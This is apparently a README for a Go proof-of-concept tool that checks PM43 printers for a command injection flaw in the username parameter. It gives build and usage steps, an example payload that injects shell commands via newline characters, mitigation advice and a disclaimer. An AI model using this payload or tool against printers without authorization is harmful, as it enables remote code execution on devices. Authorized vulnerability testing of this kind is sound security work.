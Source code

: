 # PM43 Command Injection Vulnerability (CVE-2023-XXXX) - Usage Instructions

This repository contains a Proof of Concept (POC) code written in Go (Go version 1.17) to test and demonstrate the command injection vulnerability in PM43 printers with firmware version P10.11.013310 and earlier.

## Prerequisites
- Go 1.17 or higher installed on your machine.

## Installation
1. Clone the repository to your local machine:
   ```shell
   $ git clone https://github.com/R0OtAdm1n/pm43-username-rce-poc.git
   ```

2. Change into the project directory:
   ```shell
   $ cd pm43-username-rce-poc
   ```

3. Build the POC code:
   ```shell
   $ go build
   ```

## Usage
1. Run the POC code with the target URL:
   ```shell
   $ ./pm43-username-rce-poc -url <target-url>
   ```

   Replace `<target-url>` with the URL of the PM43 printer you want to test. This will send a crafted payload to the `username` parameter and check for command injection vulnerabilities.

2. Review the results:
   - If a vulnerability is detected, the POC code will display a success message along with the payload used.
   - If no vulnerability is detected, a failure message will be displayed.

## Example
```shell
$ ./pm43-username-rce-poc -url https://printer.example.com
[*] Testing single URL: https://printer.example.com
[+] Command Injection Vulnerability Detected!
[*] Payload: POC%0Aecho -e "\n";expr 12345 \* 2;echo -e "\n"%0A
```

## Mitigation
To mitigate the command injection vulnerability in PM43 printers, it is recommended to update the firmware to the latest version provided by the manufacturer. Ensure that the firmware is regularly updated to address security vulnerabilities and follow best practices for securing network-connected printers.

## Disclaimer
This POC code is intended for educational and testing purposes only. Use it responsibly and with proper authorization. The author assumes no liability for any misuse or damage caused by this code.

## Reporting Vulnerabilities
If you discover any security vulnerabilities or have any security concerns regarding PM43 printers, please contact the printer manufacturer or their security team to report the issues responsibly.